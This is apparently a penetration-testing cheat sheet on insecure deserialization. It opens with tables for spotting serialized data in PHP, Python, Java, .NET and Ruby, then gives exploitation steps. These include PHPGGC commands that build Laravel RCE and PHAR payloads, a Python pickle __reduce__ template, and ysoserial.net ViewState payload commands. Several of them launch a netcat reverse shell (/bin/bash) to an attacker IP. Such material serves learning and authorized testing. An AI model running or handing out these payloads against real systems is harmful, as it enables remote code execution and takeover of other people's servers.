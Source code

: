 # Identifying the use of Serialization

## White-Box

| Function             | Language                     |
|----------------------|------------------------------|
| `unserialize()`      | PHP                          |
| `pickle.loads()`     | Python (Pickle)              |
| `jsonpickle.loads()` | Python (JSONPickle)          |
| `yaml.load()`        | Python (PyYAML, ruamel.yaml) |
| `readObject()`       | Java                         |
| `Deserialize()`      | C#/.NET                      |
| `Marshal.load()`     | Ruby                         |


## Black Box

| Bytes                                                                      | Language                           |
|----------------------------------------------------------------------------|------------------------------------|
| `a:4:{i:0;s:4:"Test";i:1;s:4:"Data";i:2;a:1:{i:0;i:4;}i:3;s:7:"ACADEMY";}` | PHP                                |
| `(lp0\nS'Test'\np1\naS'Data'\np2\na(lp3\nI4\naaS'ACADEMY'\np4\na.`         | Python 2.x (Pickle Protocol 0)     |
| `80 01` (Hex)                                                              | Python 2.x (Pickle Protocol 1)     |
| `80 02` (Hex)                                                              | Python 2.3+ (Pickle Protocol 2)    |
| `80 03` (Hex)                                                              | Python 3.8+ (Pickle Protocol 4)    |
| `80 04 95` (Hex)                                                           | Python 3.x (Pickle Protocol 5)     |
| `["Test", "Data", [4], "ACADEMY"]`                                         | Python 2.7 / 3.6+ (JSONPickle      |
| `- Test\n- Data\n- - 4\n- ACADEMY\n`                                       | Python 3.6+ (PyYAML / ruamel.yaml) |
| `AC ED 00 05 73 72` (Hex), `rO0ABXNy` (Base64)                             | Java                               |
| `00 01 00 00 00 ff ff ff ff` (Hex), `AAEAAAD/////` (Base64)                | C#/.NET                            |
| `04 08` (Hex)                                                              | Ruby                               |

# Exploiting PHP Deserialization

## PHPGGC

```bash
# List out available gadget chains for a specific framework:
phpggc -l Laravel

# Generate an RCE payload using a specific gadget chain:
phpggc Laravel/RCE9 system 'nc -nv <ATTACKER_IP> 9999 -e /bin/bash' -b

# Generate a payload to exploit a PHAR deserialization vulnerability:
phpggc -p phar Laravel/RCE9 system 'nc -nv <ATTACKER_IP> 9999 -e /bin/bash' -o exploit.phar
```

# Exploiting Python Deserialization

```python
# Template for Pickle RCE exploit:

import pickle
import base64
import os

class RCE:
	def __reduce__(self):
		return os.system, ("nc -nv 1.2.3.4 5555 -e /bin/bash",)

print(base64.b64encode(pickle.dumps(RCE())).decode())
```
# Exploiting __VIEWSTATE parameter without knowing its secrets

## Sensitive files: web.config

## Tools: https://github.com/pwntester/ysoserial.net https://github.com/blacklanternsecurity/badsecrets

## Resources: https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter

### ViewState information can be characterized by the following properties or their combinations:

## 1) Base64:

 - This format is utilized when both EnableViewStateMac and ViewStateEncryptionMode attributes are set to false.

## 2) Base64 + MAC (Message Authentication Code) Enabled:

 - Activation of MAC is achieved by setting the EnableViewStateMac attribute to true. This provides integrity verification for ViewState data.

## 3) Base64 + Encrypted:

 - Encryption is applied when the ViewStateEncryptionMode attribute is set to true, ensuring the confidentiality of ViewState data.

### Payload generation commands:

 - ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "REVERSE_SHELL_PAYLOAD_HERE" (Use this if ViewState is NOT MAC protected)

 - ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "REVERSE_SHELL_PAYLOAD" --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45" --apppath="/" --path="/vulnerable/vuln.aspx" (Use this if you have found the key)

 - --generator = {__VIWESTATEGENERATOR parameter value} (Append this to previous command if you don't have the key so that you can generate it)

 - bbot -f subdomain-enum -m badsecrets -t evil.corp (Check for vulnerable viewstates at scale)

 - python examples/blacklist3r.py --url http://vulnerablesite/vulnerablepage.aspx (Directly target the URL and try to carve the viewstate out of the HTML)

 - ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "REVERSE_SHELL_PAYLOAD" --path="/content/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="F6722806843145965513817CEBDECBB1F94808E4A6C0B2F2"  --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45" (Generate a payload once you have found valid keys)
